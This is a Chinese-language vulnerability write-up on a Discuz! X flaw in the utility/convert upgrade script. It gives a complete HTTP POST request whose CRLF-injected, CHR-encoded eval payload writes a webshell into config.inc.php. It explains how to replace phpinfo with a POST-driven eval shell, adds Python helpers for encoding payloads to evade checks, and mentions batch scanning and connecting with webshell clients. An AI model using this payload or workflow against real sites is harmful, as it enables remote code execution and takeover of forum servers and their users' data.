



# 1、漏洞描述

discuz! X系列的全版本，其产品升级/转换的功能存在漏洞，可利用构造的恶意语句，将shell写入到config.inc.php配置文件，从而实现getshell。

# 2、影响范围

discuz! X系列全版本

# 3、漏洞复现

漏洞利用的文件为utility/convert/index.php，选择其中一个版本，点击开始，抓取下一个页面的提交请求。



修改请求包的POST内容为如下，主要是修改红框中的内容：



```
POST /Discuz_X3.2_SC_GBK/utility/convert/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Origin: http://127.0.0.1
DNT: 1
Connection: close
Referer: http://127.0.0.1/Discuz_X3.2_SC_GBK/utility/convert/index.php?a=config&source=d7.2_x2.0
Upgrade-Insecure-Requests: 1

a=config&source=d7.2_x2.0&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(112).CHR(104).CHR(112).CHR(105).CHR(110).CHR(102).CHR(111).CHR(40).CHR(41).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaaaaaa
```

提交之后，相应的shell就写入到了/utility/convert/data/config.inc.php文件中，后面用蚁剑、冰蝎什么的连就可以了。

# 4、坑点

POST包中的source参数内容，为目标现在的版本，如果不对，提交请求会无效的。因版本比较多，手工党问题不大，但脚本批量的话，脚本中这个参数的值不多的话，大概率会漏报。

这里无论是漏洞利用的URL，还是最终写入到的URL中的文件，都有一个问题，那就是utility目录所在的位置，对于不同的站来说，很有可能不固定。网上下载的源码，这个目录是在网站根目录的上一级目录，手工的时候注意一下。脚本中是默认此目录在网站根目录了。

最重要的poc/exp的内容，其明文部分是eval("phpinfo();"); 只需要改双引号中的内容即可，比如shell为eval("$_POST['pass'];"); 但最终要转换为CHR类型的值。其中这个POST参数中的%0a%0d代表的是回车换行，在python中为\x0a\x0d，是为了躲避检查。CHR与STRING转换的脚本放在下面了。

# 5、CHR与STRING转换

## 5.1、CHR TO STRING

```
# _*_ coding:utf-8 _*_

import re

list1 = []
st = "CHR(60).CHR(63).CHR(112).CHR(104).CHR(112).CHR(32).CHR(101).CHR(99).CHR(104).CHR(111).CHR(32).CHR(39).CHR(97).CHR(98).CHR(99).CHR(39).CHR(59).CHR(63).CHR(62)"

ss = re.findall('\((\d+)\)+',str(st))
#print(ss)
for s in ss:
	s = chr(int(s))
	list1.append(str(s))

s = "".join(list1)
print(s)
```

## 5.2、STRING TO CHR

```
# _*_ coding:utf-8 _*_


list1 = []
st = "<?php echo 'abc';?>"
for s in st:
	chr_s = ord(s)
	list1.append("CHR("+str(chr_s)+")")

chr_ss = ".".join(list1)
print(chr_ss)
```

# 6、poc

poc默认漏洞URL的主目录是在网站根目录下了，可能会有漏报，POST参数中的source，poc中已经尽可能的多写了，不排除会有漏报的情况出现。配合框架可批量，测试脚本可发现漏洞。

若要getshell，直接更改poc_key中的相关内容即可，漏洞复现中也有写。
